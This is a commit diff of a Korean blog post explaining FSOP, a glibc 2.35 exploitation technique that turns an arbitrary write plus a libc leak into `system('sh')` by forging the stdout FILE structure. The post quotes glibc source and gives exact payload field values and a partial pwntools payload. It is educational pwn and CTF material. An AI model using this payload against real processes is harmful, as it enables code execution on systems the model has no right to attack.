

Before and after one commit to hareh4ru/hareh4ru.github.io, a Jekyll site: the page built from _posts/2023-11-23-AAW-to-RCE-[FSOP].md, in a window 1280 px wide and 1400 px high, scrolled down 7590 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
post update

````diff
--- a/_posts/2023-11-23-sample-post.md
+++ b/_posts/2023-11-23-AAW-to-RCE-[FSOP].md
@@ -1,16 +1,19 @@
 ---
 published: true
 layout: post
+title: "AAW to RCE - [FSOP]"
 category: pwn
 tags:
-  - pwn
+  - [FSOP]
 excerpt_separator: <!--more-->
 ---
 glibc 2.34부터 malloc, free hook이 없어지면서 libc leak + AAW가 가능할 때에도 RIP Control이 조금 더 어려워졌다.
 glibc 2.35에서도 안정적으로 `system("sh")`가 가능한 FSOP에 대해 알아보자.
 <!--more-->
+<br/>
+<br/>
 
-## `_IO_FILE` struct
+## `_IO_FILE`  struct
 
 ---
 
@@ -26,7 +29,8 @@ int main()
 ```
 FSOP를 사용하기 위해서 FILE 구조체가 IO 함수에서 어떻게 사용되는지 파악해야 한다.
 fopen에서 반환되어 fp가 가리키는 FILE 구조체는 다음과 같이 생겼다.
-
+<br/>
+<br/>
 
 ```c
 // https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/bits/types/FILE.h#L6
@@ -67,8 +71,10 @@ type = struct _IO_FILE {
 }
 ```
 
-`FILE` (=`_IO_FILE`)은 gdb에서 `ptype struct [struct name]` 으로 확인할 수 있다.
+`FILE(=_IO_FILE)`은 gdb에서 `ptype struct [struct name]` 으로 확인할 수 있다.
 stream의 입력, 출력을 위한 여러 멤버 변수들이 존재하는데 필요한 변수에 대해서만 이후에 살펴보자.
+<br/>
+<br/>
 
 
 ## `stdout` vs `_IO_2_1_stdout_`
@@ -104,6 +110,8 @@ libc_hidden_data_def (_IO_list_all)
 ```
 
 `_IO_2_1_stdout_`은 libio/stdfiles.c에서 정의된다. `_IO_FILE_plus` 자료형으로 선언되며 `_IO_FILE` 내 `chain` 포인터로 `_IO_2_1_stdin_, stdout_, stderr_`가 연결되어 있는 것을 확인할 수 있다.
+<br/>
+<br/>
 
 
 ```c
@@ -114,6 +122,8 @@ struct _IO_FILE_plus {
 }
 ```
 `_IO_FILE_plus`는 `FILE` 구조체에 `_IO_jump_t` vtable이 추가된 버전이다. vtable이 어떻게 사용되며 검증되는지는 이후에 다룰 예정이다. 다시 stdout으로 넘어가자.
+<br/>
+<br/>
 
 ```c
 // https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/stdio.c#L33
@@ -126,12 +136,15 @@ FILE *stderr = (FILE *) &_IO_2_1_stderr_;
 정리하면 data 영역의 `stdout`은 libc 영역의 `_IO_2_1_stdout_`을 가리키는 `FILE*` (=`_IO_FILE*`) 포인터이다.
 실제 `_IO_2_1_stdout_`은 `_IO_FILE` 구조체에 더해 `_IO_jump_t` vtable을 갖고 있다.
 `_IO_FILE_plus`로 정의한 `_IO_2_1_stdout_` 을 `FILE* stdout`으로 포장하여 stdio.h에서 제공하고 있다.
+<br/>
+<br/>
 
-
-![stdout.png]({{site.baseurl}}/_posts/stdout.png)
+![stdout.png](/assets/img/stdout.png)
 
 위와 같이 GDB로 각 구조체의 멤버변수 값을 런타임에 확인할 수 있다.
-
+<br/>
+<br/>
+<br/>
 
 ## puts로 살펴보는 vtable 참조
 ---
@@ -160,6 +173,8 @@ libc_hidden_def (_IO_puts)
 
 ```
 `puts`는 위와 같이 정의되어 있다. 이후 FSOP에 사용할 `_IO_sputn`의 정의를 자세히 살펴보면
+<br/>
+<br/>
 
 
 ```c
@@ -172,6 +187,8 @@ libc_hidden_def (_IO_puts)
 
 `_IO_sputn` -> `_IO_XSPUTN` -> `JUMP2(__xsputn, ...)` -> `_IO_JUMPS_FUNC(THIS)->__xsputn` 인 것을 확인할 수 있다.
 이때 `_IO_JUMPS_FUNC` = `IO_validate_vtable`에서 vtable에 대한 검증이 존재하는 것을 확인할 수 있다.
+<br/>
+<br/>
 
 
 ```c
@@ -193,6 +210,8 @@ IO_validate_vtable (const struct _IO_jump_t *vtable)
 }
 ```
 넘겨준 vtable이 libc의 vtable section 안에 존재하는지 검증한다. 검증에 성공할 경우 인자로 받았던 vtable 포인터를 그대로 반환하여 멤버 함수를 참조한다. 이 검증이 없었을 때에는 vtable을 fake table로 바꿔주기만 하면 RCE가 가능했다.
+<br/>
+<br/>
 
 ```c
 // https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/libioP.h#L293
@@ -223,6 +242,8 @@ struct _IO_jump_t
 };
 ```
 `_IO_jump_t` 타입의 vtable은 위와 같이 생겼다. 앞서 실행 흐름을 다시 살펴보면 `_IO_sputn` -> `_IO_XSPUTN` -> `JUMP2(__xsputn, ...)` -> `_IO_JUMPS_FUNC(THIS)->__xsputn`이었다.
+<br/>
+<br/>
 
 puts를 실행할 때를 기준으로 정리하면 `_IO_2_1_stdout_.vtable->__xsputn`이 호출되는 것이다. FSOP는 vtable 검증을 우회하고 임의 함수를 실행하기 위해
 
@@ -230,8 +251,11 @@ puts를 실행할 때를 기준으로 정리하면 `_IO_2_1_stdout_.vtable->__xs
 2. vtable section 내의 vtable 중 하나인 `_wide_vtable`을 참조할 때는 검증이 존재하지 않는다.
 
 위의 두 가지를 이용한다.
+<br/>
+<br/>
 
-
+## `_wide_vtable`의 검증 부재
+---
 ```c
 // https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/wgenops.c#L363
 void
@@ -248,6 +272,8 @@ _IO_wdoallocbuf (FILE *fp)
 libc_hidden_def (_IO_wdoallocbuf)
 ```
 `_wide_vtable`을 참조하는 내부 루틴 중 하나인 `_IO_WDOALLOCATE`을 살펴보면
+<br/>
+<br/>
 
 ```c
 // https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/libioP.h#L223
@@ -270,40 +296,47 @@ libc_hidden_def (_IO_wdoallocbuf)
 
 ```
 
-`#define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable((THIS)))` :
-앞서 살펴본 `_IO_FILE_JUMPS`에서 검증을 진행했던 것과 달리 바로 포인터로 캐스팅해주는 것을 확인할 수 있다.
+`#define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable((THIS)))`
+<br/>
+
+앞서 살펴본 `_IO_FILE_JUMPS`에서는 검증을 진행했던 것과 다르게 바로 포인터로 캐스팅해주는 것을 확인할 수 있다.
+<br/>
+<br/>
 
 이를 이용해서 FSOP는
 1. `_IO_2_1_stdout_.vtable`이 `_wide_vtable`을 가리키도록 한다.
 (구체적으로 이 포스트에서 다루는 FSOP path에서는 정확히 `_IO_2_1_stdout_.vtable->__xsputn == _IO_wfile_jumps->_IO_file_overflow`가 되도록 한다.)
 
 
-2. `_IO_wfile_jumps->_IO_file_overflow`에서 호출하는 내부 루틴이 `_wide_vtable`을 참조하게 될텐데
+2. `_IO_wfile_jumps->_IO_file_overflow`에서 호출하는 내부 루틴이 `_wide_vtable`을 참조하게 될텐데,
+<br/>
 
-```
-// https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/libioP.h#L101
+```c
 #define _IO_WIDE_JUMPS(THIS) \
   _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable
 ```
 이때 내부 루틴에서 참조하는 `_wide_vtable`은 `_IO_2_1_stdout_._wide_data->_wide_vtable`에 해당하며,
 libc leak + AAW로 `_IO_2_1_stdout_._wide_data`를 자유롭게 덮을 수 있는 상황을 가정하고 있다.
+<br/>
 
-따라서 내부 루틴에서 참조하는 `wide_vtable`이 fake table을 가리키도록 할 수 있다.
+따라서 내부 루틴에서 검증없이 참조하는 `wide_vtable`이 fake table을 가리키도록 할 수 있다.
 
+<br/>
 
 ## Code Flow
 ---
-이제 FSOP가 의도하는 코드 흐름을 살펴보자.
-
-앞서 미리 적은 것처럼
+이제 FSOP가 의도하는 코드 흐름을 살펴보자. 앞서 미리 적은 것처럼
 1. `_IO_puts`에서 `_IO_sputn`을 호출하는데, 이때 `_IO_2_1_stdout`의 vtable이 `_wide_vtable`을 가리키도록 덮어 `_IO_wfile_overflow`을 호출한다. `_IO_wfile_overflow`은 차례로 `_IO_wdoallocbuf`, `_IO_WDOALLOCATE (fp)`을 호출한다.
 
 2. `_IO_WDOALLOCATE (fp)`에서 `_wide_vtable`에 대한 검증이 없기 때문에 fake table을 사용하여 `system()`을 호출한다.
+<br/>
 
 정리하면 다음과 같다.
 `_IO_puts` → (`_IO_sputn` , corrupted vtable) → `_IO_wfile_overflow` → `_IO_wdoallocbuf` → `_IO_WDOALLOCATE (fp)`
 
 코드 흐름에서 constraints가 몇 가지 존재하여 코드와 같이 정리했다.
+<br/>
+<br/>
 
 ### puts
 ---
@@ -327,9 +360,10 @@ _IO_puts (const char *str)
 }
 ```
 * Constraints
-1. `_IO_acquire_lock`이 있어 `_IO_2_1_stdout`의 멤버변수 lock이 rw 영역을 가리켜야 한다. (이렇게만 주면 충분 - libc.symbols['_IO_2_1_stdout_'] + 0x10)
-2. `vtable->__xsputn == `_IO_wfile_overflow`
-`_IO_2_1_stdout`의 vtable을 덮어 `_IO_sputn`을 호출했을 때 `_IO_wfile_jumps->__overflow`에 해당하는 `_IO_wfile_overflow`이 호출되도록 한다.
+1. `_IO_acquire_lock`이 있어 `_IO_2_1_stdout`의 멤버변수 lock이 rw 영역을 가리켜야 한다.<br/>(이렇게만 주면 충분 - libc.symbols['_IO_2_1_stdout_'] + 0x10) <br/>
+2. `vtable->__xsputn == _IO_wfile_overflow`<br/> `_IO_2_1_stdout`의 vtable을 덮어 `_IO_sputn`을 호출했을 때 `_IO_wfile_jumps->__overflow`에 해당하는 `_IO_wfile_overflow`이 호출되도록 한다.
+<br/>
+<br/>
 
 ### _IO_wfile_overflow
 
@@ -360,6 +394,8 @@ _IO_wfile_overflow (FILE *f, wint_t wch)
 1. `f->_flags & _IO_NO_WRITES == 0`
 2. `f->_flags & _IO_CURRENTLY_PUTTING == 0`
 3. `f->_wide_data->_IO_write_base == 0`
+<br/>
+<br/>
 
 
 ### _IO_wdoallocbuf
@@ -381,6 +417,8 @@ _IO_wdoallocbuf (FILE *fp)
 1. `fp->_wide_data->_IO_buf_base == 0`
 2. `fp->_flags & _IO_UNBUFFERED == 0`
 3. `fp->_wide_data->_wide_vtable_->__doallocate == libc_system`
+<br/>
+<br/>
 
 
 ## Constraints
@@ -402,6 +440,8 @@ _IO_wdoallocbuf (FILE *fp)
 3. `fp->_wide_data->_wide_vtable_->__doallocate == libc_system`
 
 이제 fp의 각 인자에 대해 제약 조건을 정리하자.
+<br/>
+<br/>
 
 ### fp→vtable
 
@@ -443,6 +483,8 @@ gef➤  ptype /o _IO_wfile_jumps
 
 ⇒ `fp->vtable = libc['_IO_wfile_jumps'] - 0x20`
 으로 설정하면 `vtable->__xsputn`이 정확히 `_IO_wfile_jumps - 0x20 + 0x56 == _IO_wfile_jumps.__overflow` ⇒ `_IO_wfile_overflow` 을 가리킴.
+<br/>
+<br/>
 
 ### fp→_flags
 
@@ -462,6 +504,8 @@ gef➤  ptype /o _IO_wfile_jumps
 코드 흐름의 가장 마지막에서 `_IO_WDOALLOCATE (fp)`가 호출되는데, `_IO_FILE`의 첫번째 멤버 변수인 `_flags`를 통해 RDI에 sh를 넣을 수 있다. 하위 2바이트를 `\x01\x01` 으로 구성하면 null이 들어가지 않게 검증을 통과할 수 있다.
 
 `fp._flags` → `b"\x01\x01;sh;\x00\x00”` 로 구성하여 최종 단계에서 RDI에 `\x01\x01;sh;`가 들어가도록 하자.
+<br/>
+<br/>
 
 ### fp→_wide_data
 
@@ -544,20 +588,31 @@ type = struct _IO_FILE {
 
 `*(QWORD*)fp->_unused2[12] = (QWORD)&fp->_unused2-104, *(QWORD*)&fp->_unused2= &libc_system`으로 설정했다.
 
+<br/>
+<br/>
+
 
 ## 결론
 ---
 `fp->_flags == b"\x01\x01;sh;\x00\x00"`
+
 `fp->_lock == libc.symbols['_IO_2_1_stdout_'] + 0x10`
+
 `fp->vtable = libc['_IO_wfile_jumps'] - 0x20`
+<br/>
+<br/>
 
 `fp->_wide_data = libc.symbols['_IO_2_1_stdout_'] - 16`
+
 `fp->_IO_read_ptr == 0`
+
 `fp->_IO_write_base == 0`
+
 `fp->_unused2 = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104)`
 
 이렇게 stdout을 구성하면 system("sh")를 호출할 수 있다.
-
+<br/>
+<br/>
 
 ```python
 libc.address = libc_base
@@ -597,10 +652,12 @@ FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
         )
 ```
 이를 코드로 정리하면 위와 같다.
-FSOP_struct()의 경우 @qwerty님이 화햇 예선 디스코드에 올리신 걸 그대로 썼다 ^.^
+`FSOP_struct()`의 경우 @qwerty님이 화햇 예선 디스코드에 올리신 걸 그대로 썼다 ^.^
+<br/>
+<br/>
 
 ## Reference
 ---
-https://niftic.ca/posts/fsop/
+[Deep dive into FSOP](https://niftic.ca/posts/fsop/)
 
-https://blog.kylebot.net/2022/10/22/angry-FSROP/
+[Angry-FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/)
````
Also changed, not shown: _posts/2023-10-01-sample-post.md (+1 -1 lines).
